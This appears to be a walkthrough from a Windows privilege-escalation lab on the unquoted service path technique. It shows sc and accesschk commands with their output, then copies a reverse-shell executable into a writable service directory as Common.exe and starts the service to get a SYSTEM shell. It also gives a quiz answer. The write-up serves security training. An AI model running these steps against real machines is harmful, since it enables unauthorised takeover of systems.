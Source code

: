 <code>sc qc unquotedsvc</code><br>

Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:<br>

<code>C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"</code><br>

Copy the reverse.exe executable you created to this directory and rename it Common.exe:<br>

<code>copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"</code><br>

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:<br>

<code>net start unquotedsvc</code></p>

<p><em>Answer the question below</em></p>

<p>4.1. What is the BINARY_PATH_NAME of the unquotedsvc service?<br>
<code>C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe</code></p>

```bash
C:\PrivEsc>sc qc unquotedsvc
sc qc unquotedsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

```bash
C:\PrivEsc>C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```

```bash
C:\PrivEsc>copy C:\PrivEsc\program.exe "C:\Program Files\Unquoted Path Service\Common.exe"
copy C:\PrivEsc\program.exe "C:\Program Files\Unquoted Path Service\Common.exe"
        1 file(s) copied.
```

```bash
C:\PrivEsc>net start unquotedsvc
```
